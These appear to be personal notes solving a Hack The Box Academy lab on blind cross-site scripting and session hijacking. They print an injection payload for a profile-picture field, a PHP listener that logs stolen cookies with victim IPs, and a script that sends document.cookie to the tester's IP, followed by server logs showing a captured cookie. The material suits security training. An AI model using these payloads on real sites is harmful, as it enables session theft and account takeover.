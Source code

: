    

![](https://academy.hackthebox.com/storage/modules/103/xss_blind_hijacked_session.jpg)


# Question
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250130174323.png)

Let's go to the `/hijacking` page:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250130175150.png)

Let's fill in some random data and use this payload at the Profile Picture URL:

```js
"><script src=http://IP></script>
```

With this, we've checked that the website is indeed vulnerable to XSS, we can do the following:


Now, we can create a php server and a `script.js` file to be run remotely:

```php
<?php  
if (isset($_GET['c'])) {  
$list = explode(";", $_GET['c']);  
foreach ($list as $key => $value) {  
$cookie = urldecode($value);  
$file = fopen("cookies.txt", "a+");  
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");  
fclose($file);  
}  
}  
?>
```

```js
document.location='http://10.10.15.141/index.php?c='+document.cookie;  
new Image().src='http://10.10.15.141/index.php?c='+document.cookie;
```

Run the server and register again using this payload:

```js
"><script src=http://IP/script.js></script>
```

We will see the following output in our server:

```
[Thu Jan 30 22:56:13 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37580 Accepted
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37580 [200]: GET /script.js
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37580 Closing
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37582 Accepted
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37582 [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
[Thu Jan 30 22:56:19 2025] 10.129.147.238:37582 Closing
```
